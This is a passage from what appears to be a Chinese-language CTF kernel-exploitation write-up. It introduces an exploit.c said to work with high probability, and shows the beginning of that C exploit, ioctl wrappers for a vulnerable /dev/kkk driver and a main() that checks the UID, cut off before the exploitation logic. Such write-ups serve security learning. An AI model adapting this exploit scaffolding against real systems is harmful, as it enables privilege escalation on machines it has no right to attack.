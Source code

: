 认为这个地址和代码段偏移不变的话，最终写出如下 exploit.c，实测是有很大概率可以打通的。

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <string.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <errno.h>
#include <stdint.h>

struct AddParam{
    unsigned long long type; // type and enc
    unsigned long long key_len;
    char * key;
    unsigned long long data_len;
    char * data;   
};

struct OtherParam{
    unsigned long long id;
    unsigned long long key_len;
    char * key;
    unsigned long long data_len;
    char * data;     
};

void Add(int fd, struct AddParam* p)
{
    printf("[+] Add return :%d\n", ioctl(fd, 0x6B64, p));
}

void Run(int fd, struct OtherParam* p)
{    
    printf("[+] Launch return :%d\n", ioctl(fd, 0x6B6B, p));
}

void Update(int fd, struct OtherParam* p)
{
    printf("[+] Update return :%d\n", ioctl(fd, 0x6B67, p));
}

void Dump(int fd, struct OtherParam* p)
{
    printf("[+] Dump return :%d\n", ioctl(fd, 0x6B69, p));    
}

void Detach(int fd, struct OtherParam* p)
{
    ioctl(fd, 0x6B6D, p);
}

void main()
{
    char path[0x10] = "/dev/kkk";
    char buf[0x100];
    char sendbuf[0x100];
    char recvbuf[0x10000];
    
    printf("[+] Current UID: %d\n", getuid());
    memset(buf, 0, 0x100);
```